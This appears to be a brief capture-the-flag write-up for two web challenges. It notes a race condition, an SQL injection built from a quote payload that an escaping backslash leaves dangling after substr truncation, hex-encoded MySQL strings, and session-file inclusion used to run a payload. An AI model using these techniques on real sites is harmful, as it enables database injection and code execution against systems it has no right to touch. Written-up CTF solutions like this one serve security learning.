 ## Web 1

- race condition ([Reference](https://github.com/ctfs/write-ups-2015/tree/master/ghost-in-the-shellcode-2015/web/aart))

## Web 2

- truncate by `substr`

```
payload   -> "A" * 15 + "'"
escaped   -> "AAAAAAAAAAAAAAA\'"
truncated -> "AAAAAAAAAAAAAAA\"
sprintf   -> "VALUES('AAAAAAAAAAAAAAA\' ...... )"
```

- `0x737472696e67` style string for MySQL
- put payload in `$_SESSION` and include session file
